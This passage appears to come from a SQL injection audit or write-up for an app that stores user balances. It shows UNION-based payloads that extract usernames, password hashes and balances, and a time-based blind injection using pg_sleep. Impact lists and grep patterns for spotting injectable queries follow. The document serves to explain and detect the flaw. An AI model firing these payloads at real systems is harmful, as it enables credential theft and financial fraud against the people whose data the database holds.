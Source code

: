 ### 2. Data Extraction
#### Extracting User Data
```sql
-- Extract usernames and password hashes
' UNION SELECT id, username, password_hash, NULL FROM user--

-- Extract balance information
' UNION SELECT id, username, balance, NULL FROM user WHERE balance > 1000--
```

#### Time-Based Blind Injection
```sql
-- Check if admin user exists
' AND (SELECT CASE WHEN EXISTS(SELECT 1 FROM user WHERE username='alice') THEN pg_sleep(5) ELSE pg_sleep(0) END)--
```

## Impact Analysis

### 1. Business Impact
- Unauthorized account access
- Financial fraud
- Data breach
- Reputation damage
- Regulatory compliance violations

### 2. Technical Impact
- Database compromise
- Data manipulation
- Information disclosure
- System access
- Audit log manipulation

## Detection Methods

### 1. Static Analysis
```bash
# Find potential SQL injection points using string concatenation
grep -r "SELECT.*\+.*FROM\|SELECT.*%.*FROM\|SELECT.*{.*}.*FROM" .

# Find f-string SQL queries
grep -r "f[\"']SELECT.*FROM.*[\"']" .

# Find direct variable interpolation in queries
grep -r "execute.*%.*)" .

# Find raw SQL execution
grep -r "execute([\"'].*[\"'])" .

# Find dangerous query patterns
grep -r "WHERE.*=.*'" .
```
